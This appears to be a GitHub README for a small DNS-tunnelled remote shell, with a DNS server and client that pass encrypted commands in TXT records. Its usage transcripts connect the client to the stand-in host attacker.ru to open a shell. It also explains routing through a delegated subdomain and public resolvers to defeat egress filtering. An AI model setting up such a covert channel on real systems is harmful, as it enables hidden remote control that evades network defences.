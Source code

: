 # DNS Shell

## Introduction
This is a simple dns shell. I've heard a few security talks lately, and I've heard people talk of dns shells like they are new and hip...yet they've been around since the late 90's...is it just me who has heard of these for years?

Anyways, this is a pretty simple shell setup. It contains a custom DNS server that sits and listens for TXT request from a custom DNS client.

The shell implementation is pretty ghetto (kind of on purpose...script kiddies need to do some work on their part...).

All comms are encrypted with AES128 with padding and a nonce-based iv (might be insecure...space for cnc is pretty small...hence why it's AES128 instead of AES256 or higher). At some point I'd like to add a layer of asymmetric encrypt to ensure authenticity with the server and that way a private key wouldn't need to be provided on the client side of things.

The nonce system is kind of a mess. I was too lazy to implement a full nonce based resending system...so I just added a delay between sending packets to "hope" they arrive in order...it's on the todo...

Single client only (multiple clients are going to do some weird things...).

Made this just to do it myself...iodine and dnscat are way better than this...

Educational use intended...don't break the law and say I didn't say you shouldn't...

## Usage
This can be used in two ways - the dumb way and the smart way.

#### Dumb way
The dumb way is simply setting up a server and using it like so:

On the server:
```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .attacker.ru
DNS Server: attacker.ru
DNS Port (press enter for 53):
```

The dumb way can be stopped by egress filtering on client machines. The smart way is a little more resilient.

#### Smart way
The smart way is to create an NS record on an internet nameservice (like GoDaddy, Namecheap, etc...). Set this to a subdomain (usually can't make a NS on your root domain on these types of systems). I'm going to use `.cnc.attacker.ru` as an example. You are also going to need to setup a server on an internet accessible machine, and give it an A record to `cnc.attacker.ru`. Any DNS requests for `*.cnc.attacker.ru` from clients can now go to an internet DNS (say `8.8.8.8`), which will query `cnc.attacker.ru`, which will send replies back to `8.8.8.8`, which will go back to the client. Egress filtering defeated...

```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .cnc.attacker.ru
DNS Server: 8.8.8.8
DNS Port (press enter for 53):
```

## Files
`alpha.py`		- Arbitrary(ish) encoding system.
`b62.py`		- Base62 encoder using alpha.py.
`client.py`		- Client (aka shell).
`cnc.py`		- Non-blocking command line interface.
`crypt.py`		- Encryption scheme (AES128).
`server.py`		- Server (aka shell handler).
`session.py`	- DNS session handler (has a session number that isn't used at the moment...)
`util.py`		- Random utility functions needed.

## Closing
Summary: Simple liitle dns shell with encrypted comms that still needs a lot of work...but it served its purpose...

That's it...
